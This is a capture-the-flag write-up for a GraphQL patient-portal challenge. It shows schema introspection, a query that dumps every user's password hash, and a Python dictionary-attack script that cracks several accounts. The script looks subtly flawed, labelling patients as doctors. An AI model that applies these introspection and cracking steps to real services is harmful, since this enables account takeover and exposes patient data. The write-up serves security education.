


# Med Graph

## Description

My startup is launching the next big patient portal, using the hottest new tech! Check it out with our guest account: **Demo:TUCTF**. 
We're still in beta, but it's so secure we already have users! Note: This challenge requires no bruteforcing or intense scanning of the application.

https://med-graph.tuctf.com 

## Analysis

After logging using provided credentials, the application homepage looks as follows:



By looking at static frontend file `dashboard.js` the following can be noted:

```javascript
async function fetchDoctorData() {
    const query = `
        {
            doctor (id:7892) {
                name
                department
                patients {
                    name
                    age
                    medicalHistory
                    medications {
                        name
                        dosage
                        description
                    }
                }
            }
        }
    `;

    const response = await fetch('/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ query })
    });

    const result = await response.json();
    displayDoctorInfo(result.data.doctor);
}
```

This highlights that the web application leverages **GraphQL** for managing and delivering data to the client.

## Exploit

It is possible to try list and read the **GraphQL** application schema and types by sending the following data to https://med-graph.tuctf.com/graphql (e.g. with **Postman**).

```graphql
{
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    subscriptionType {
      name
    }
    types {
      name
      kind
      fields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
      }
      inputFields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
      }
      interfaces {
        name
      }
      enumValues {
        name
      }
      possibleTypes {
        name
      }
    }
  }
}
```

The query output in particular highlights the presence of the `password` field

```graphql
{
    "data": {
        "__schema": {
            "mutationType": null,
            "queryType": {
                "name": "Query"
            },
            "subscriptionType": null,
            "types": [
                {
                    "enumValues": null,
                    "fields": [
                        {
                            "name": "patient",
                            "type": {
                                "kind": "OBJECT",
                                "name": "PatientType",
                                "ofType": null
                            }
                        },
                        {
                            "name": "userData",
                            "type": {
                                "kind": "OBJECT",
                                "name": "PatientType",
                                "ofType": null
                            }
                        },
                        ...
                        {
                            "name": "doctor",
                            "type": {
                                "kind": "OBJECT",
                                "name": "DoctorType",
                                "ofType": null
                            }
                        },
                        {
                            "name": "password",
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            }
                        }
                   ...
            ]
        }
    }
}
```

It is possible to try fetch all users (both doctors and patients) passwords leveraging the following query:

```graphql
{
    allPatients {
        name
        password
        doctor {
            name
            department
            password
        }
    }
}
```

which outcomes: 

```graphql
{
    "data": {
        "allPatients": [
            {
                "doctor": {
                    "department": "Nephrology",
                    "name": "Jack",
                    "password": "e6a82bc32533b8009bd4b737152c6eded29322c7bcce9f0e622bc775559662a0"
                },
                "name": "Kate",
                "password": "87cdd14c6624d1f805d5fb98d4db0a598a38665a36b43da3d1c2e2ad13a6685c"
            },
            ...
            {
                "doctor": {
                    "department": "Gastroenterology",
                    "name": "Grace",
                    "password": "072608b9bfb6968e83072109cd33cdb108a98341bef5ce79d003bfe63dfcc992"
                },
                "name": "Mia",
                "password": "a8f0945476d33682a5ec095c2bee0edee7f11e8d9bbff3048a16d6a50b5e4d5a"
            }
        ]
    }
}
```

The application stores for each password its corresponding hash value. 
If we retrieve the password hash of the known account we previously logged in, we can analyze it and try guess the used algorithm.

    "name": "Demo",
    "password": "492d99acf39eb7d31f03a7ab0326943b13f47d3c16c907b5e7659e3cc9c5b46f"

We discover that 

    sha256("TUCTF") = 492d99acf39eb7d31f03a7ab0326943b13f47d3c16c907b5e7659e3cc9c5b46f

At this point we can try to perform a **dictionary attack** and try recover other users credentials:

```python
from hashlib import sha256

leaked_data =  [
            {
                "doctor": {
                    "id": 6101,
                    "name": "Jack",
                    "password": "e6a82bc32533b8009bd4b737152c6eded29322c7bcce9f0e622bc775559662a0"
                },
                "name": "Kate",
                "password": "87cdd14c6624d1f805d5fb98d4db0a598a38665a36b43da3d1c2e2ad13a6685c"
            },
            ...
            {
                "doctor": {
                    "id": 5673,
                    "name": "Grace",
                    "password": "072608b9bfb6968e83072109cd33cdb108a98341bef5ce79d003bfe63dfcc992"
                },
                "name": "Mia",
                "password": "a8f0945476d33682a5ec095c2bee0edee7f11e8d9bbff3048a16d6a50b5e4d5a"
            }
        ]

# Initialize empty sets to remove duplicates
doctors = set()
users = set()

# Extract doctor and user data
for entry in leaked_data:
    if "doctor" in entry:
        doctors.add((entry["doctor"]["name"], entry["doctor"]["password"]))
    if "name" in entry and "password" in entry:
        users.add((entry["name"], entry["password"]))

# Convert sets back to lists for output
doctors = list(doctors)
users = list(users)
    
# Open the wordlist once, not in every iteration
with open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin-1") as wordlist:
    try:
        for password in wordlist:
            password = password.strip()  # Remove extra spaces/newlines
            hashed_password = sha256(password.encode()).hexdigest()

            # Check for a match with each doctor and user
            for d, u in zip(doctors, users):
                if hashed_password == d[1]:
                    print(f"Doctor: {d[0]} - Password: {password}")
                    break
                if hashed_password == u[1]:
                    print(f"User: {u[0]} - Password: {password}")
                    break
    except Exception as e:
        print(f"Error reading wordlist: {e}")
```

output:

    Doctor: Mia - Password: maravilhosa
    Doctor: Eve - Password: ensley
    Doctor: Hank - Password: Guiness1
    Doctor: Frank - Password: mokele
    Doctor: Ivy - Password: madjac

By logging in the first found account the corresponding homepage will display the flag:



`TUCTF{w3_7h1nk_1n_6r4ph5}`